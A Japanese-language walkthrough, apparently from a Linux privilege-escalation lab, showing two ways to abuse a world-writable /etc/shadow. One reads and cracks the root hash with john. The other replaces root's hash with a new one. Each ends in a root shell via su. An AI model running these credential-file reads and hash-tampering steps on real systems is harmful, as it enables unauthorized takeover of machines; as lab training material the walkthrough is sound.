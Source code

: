 # Privilege Escalation
1. etc/shadow ファイルのパーミッションを確認します。
```
$ ls -l /etc/shadow
-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow
```
誰でも読み取り可能であることに注意してください。   
2. rootユーザのパスワードハッシュを抽出する。  
```
$ head -n 1 /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
```
3. パスワードのハッシュ値をファイル（例：hash.txt）に保存します。   
```
$ echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVl
aXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'
```
4. johnを使ってパスワードのハッシュをクラックする。
```
$ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.t
xt hash.txt
...
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE
2 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
password123 (?)
```
5. suコマンドでrootユーザーに切り替わり、プロンプトが出たら解読したパスワードを入力します。
```
$ su
Password:
root@debian:/# id
uid=0(root) gid=0(root) groups=0(root)
```
# Privilege Escalation (#2)
1. etc/shadow ファイルのパーミッションを確認します。
```
$ ls -l /etc/shadow
-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow
```
誰でも読み取り可能であることに注意してください。
2. 後で復元できるように、/etc/shadowの内容をコピー/保存します。
3. 新しいSHA-512パスワードハッシュを生成します。
```
$ mkpasswd -m sha-512 newpassword
$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/
```
4. etc/shadowを編集し、rootユーザーのパスワードハッシュを今回生成したものに置き換えます。
```
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
```
5. suコマンドを使用してrootユーザーに切り替え、プロンプトが表示されたら新しいパスワードを入力します。
```
$ su
Password:
root@debian:/# id
uid=0(root) gid=0(root) groups=0(root)
```